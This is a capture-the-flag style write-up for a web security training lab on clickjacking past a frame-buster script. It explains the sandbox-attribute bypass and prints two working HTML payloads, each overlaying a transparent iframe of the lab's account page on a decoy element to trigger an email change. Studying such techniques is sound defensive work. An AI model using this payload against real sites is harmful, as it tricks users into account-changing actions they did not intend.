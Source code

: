 Title: Clickjacking with a frame buster script
Desc:  This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?
To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.
You can log in to your own account using the following credentials: wiener:peter 


# Theory: 
`frame buster` is a script, which want to prevent Clickjacking by for example changing top.location to self.location and escaping from iframe in context of defended site.

An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>

Both the allow-forms and allow-scripts values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site. 

# Walkthrough:

```
<style>
    iframe {
        position:relative;
        width: 400;
        height: 550;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 456;
        left: 50;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0ac7009004c4d3d5801a449300e00089.web-security-academy.net/my-account?email=test4@gmail.com"></iframe>
```

<img width="822" height="557" alt="image" src="https://github.com/user-attachments/assets/9c76f7b2-c586-47e0-bf16-45f73951806c" />

We have prevention against Clickjacking! We need to bypass this using Theory above:

```
<style>
    iframe {
        position:relative;
        width: 400;
        height: 550;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 456;
        left: 50;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0ac7009004c4d3d5801a449300e00089.web-security-academy.net/my-account?email=test4@gmail.com" sandbox="allow-forms"></iframe>
```

We did it!

